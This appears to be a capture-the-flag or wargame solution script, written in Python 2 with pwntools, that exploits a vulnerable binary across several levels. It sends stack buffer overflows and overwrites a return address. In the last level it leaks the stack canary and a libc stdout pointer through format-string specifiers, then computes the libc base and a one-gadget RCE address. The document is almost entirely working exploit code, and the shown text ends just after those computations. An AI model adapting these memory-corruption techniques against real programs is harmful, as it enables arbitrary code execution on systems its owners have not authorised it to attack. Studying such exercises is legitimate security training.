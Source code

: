 ```
def level3():
    buf = ""
    buf += "A"*136
    buf += "\x2d"
    print r.recv()
    r.sendline(buf)
    print r.recv()

def level4():
    print r.recv()
    r.sendline("73")
    print r.recv()
    buf = ""
    buf += "A"*108
    buf += p32(0x804a47c)
    r.sendline(buf)
    print r.recv()

def level5():
    fmt = "3"

    small = "1"
    small_offset = 40
    small_max = 64

    # leak the stack canary
    r.recv()
    r.sendline(fmt)
    r.recv()

    canary_leak = 71     # canary is at offset of the format string leak
    buf = ""
    buf += "%" + str(canary_leak) + "$p"

    r.sendline(buf)
    print r.recv()

    canary = r.recv().split("\n")[0]
    canary = int(str(canary), 16)
    print "leaked canary:", hex(canary)

    # leak address of _IO_2_1_stdout
    r.sendline(fmt)
    r.recv()
    io_stdout_leak = 67
    buf = ""
    buf += "%" + str(io_stdout_leak) + "$p"

    r.sendline(buf)
    print r.recv()

    io_stdout = r.recv().split()[0]
    io_stdout = int(io_stdout, 16)
    print "leaked io_stdout:", hex(io_stdout)

    io_stdout_offset = 0x3c5620
    libc_base = io_stdout - io_stdout_offset
    print "libc base:", hex(libc_base)

    one_gadget_offset  = 0x45216
    one_gadget = libc_base + one_gadget_offset
    print "one-gadget-rce:", hex(one_gadget)
    r.sendline(small)
```